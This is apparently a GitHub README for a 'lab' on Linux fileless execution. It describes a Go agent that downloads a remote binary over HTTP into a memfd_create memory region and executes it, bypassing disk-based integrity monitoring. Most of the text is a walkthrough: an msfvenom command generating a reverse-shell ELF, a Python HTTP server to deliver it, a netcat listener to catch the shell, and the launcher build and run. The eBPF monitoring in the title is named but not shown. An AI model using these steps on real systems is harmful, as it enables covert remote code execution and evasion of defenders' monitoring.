

# Linux Fileless Execution & eBPF Monitoring Lab

This repository contains a proof-of-concept (PoC) laboratory demonstrating **Fileless Execution** techniques on Linux via RAM-backed file descriptors (`memfd_create`).


**Go Simulation Agent:** Streams a remote binary payload directly into an anonymous memory space and executes it without touching the physical disk.

---

## Technical Overview

The simulation agent bypasses traditional disk-based file integrity monitoring (FIM) by routing data entirely through volatile storage layouts:

[Remote Server] ──(HTTP Stream)──> [Go Runtime RAM Buffer] ──(write)──> [memfd Pages (tmpfs)] ──> [execveat]

---

## Lab Setup & Execution

Follow these steps to replicate the fileless execution sequence in a controlled environment.

### Prerequisites
* Go 1.20+ 
* Linux Kernel 4.18+ (with `CONFIG_BPF_SYSCALL` enabled)
* Metasploit Framework (for test payload generation)

### Generate the Test Payload
Generate a standard Linux x64 reverse shell ELF binary:
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<YOUR_LOCAL_IP> LPORT=4444 -f elf > raw_shell.elf
#Step 2: Host the Payload
#Start a temporary HTTP server in the directory containing shell.elf to act as the remote delivery server:
python3 -m http.server 80
#Step 3: Set Up the Listener
#In a separate terminal, open a netcat listener to intercept the incoming reverse shell connection:
nc -nvlp 4444
#Step 4: Compile and Run the Go Simulation
#Ensure the target URL in main.go points to your Python server (http://localhost:80/shell.elf), then build and run the executable:
go build -o fileless_launcher main.go
./fileless_launcher
```


